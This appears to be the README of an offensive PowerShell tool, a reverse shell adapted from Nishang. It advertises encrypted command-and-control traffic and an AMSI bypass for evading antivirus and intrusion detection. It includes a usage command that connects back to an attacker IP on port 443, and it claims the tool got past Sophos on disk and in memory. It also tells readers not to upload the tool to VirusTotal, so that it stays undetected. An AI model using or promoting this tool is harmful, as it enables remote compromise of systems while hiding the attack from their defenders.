 # RevershellTCPEncrypt_BypassAMSI

This script is based on Nishang's, thanks for sharing<br>

```sh
.\rc2.ps1 192.168.1.6 443
```

This shell allows you to encrypt your C2, at the network transfer level at the transport and application layers mitigating the detection of rule anomalies of some IPs/IDs.<br>

A proof of concept was carried out in several AVs, in the photo I avoided a S0ph0s on disk and memory.

![image](https://user-images.githubusercontent.com/66162160/206824568-3d5d7e93-f0b3-4898-927a-c45afdb48882.png)

## ! Do not upload to total virus!
